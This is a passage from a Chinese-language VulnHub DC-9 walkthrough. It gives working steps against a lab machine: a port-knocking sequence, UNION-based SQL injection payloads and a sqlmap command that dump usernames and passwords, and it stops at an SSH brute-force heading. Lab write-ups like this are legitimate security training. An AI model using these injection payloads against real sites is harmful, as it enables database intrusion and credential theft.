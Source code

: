 访问这两个进行测试，最终访问`/etc/knockd.conf`发现信息

![](D:\stu\vulnhub\DC靶场\pic-9\20.jpg)

记住这个序列`7469,8475,9842`，使用`kncok`敲靶机，再次扫描，可以看到已经处于打开状态

```shell
knock 192.168.10.13 7469 8475 9842
```

![](D:\stu\vulnhub\DC靶场\pic-9\21.jpg)

但是到这里没有任何东西了，看了网上的`wp`，啧，少了一个步骤，就是查询数据库，我这里直接使用当前数据库，导致错过大量信息，在`search.php`构造下面语句

```shell
tom' union select concat(schema_name),version(),3,user(),5,6 from information_schema.schemata#
```

![](D:\stu\vulnhub\DC靶场\pic-9\22.jpg)

爆出数据库的表的名称

```shell

tom' union select concat(table_name),version(),3,user(),5,6 from information_schema.tables where table_schema='users'#
```

爆出表中的列名

```shell
tom' union select concat(column_name),version(),3,user(),5,6 from information_schema.columns where table_name='UserDetails'#
```

```shell
tom' union select concat(username,password),version(),3,user(),5,6 from users.UserDetails#
```

![](D:\stu\vulnhub\DC靶场\pic-9\23.jpg)

为了结果更清晰，采用`sqlmap`展示图片，使用`burp`抓取`search.php`请求时的数据包，并把数据包中的内容进行复制

```shell
sqlmap -r search -D users -T UserDetails -C username,password --dump
```

![](D:\stu\vulnhub\DC靶场\pic-9\24.jpg)

可以查看保存后的

![](D:\stu\vulnhub\DC靶场\pic-9\25.jpg)

# ssh爆破

这里可以直接通过`ai`来帮助区分

![](D:\stu\vulnhub\DC靶场\pic-9\26.jpg)
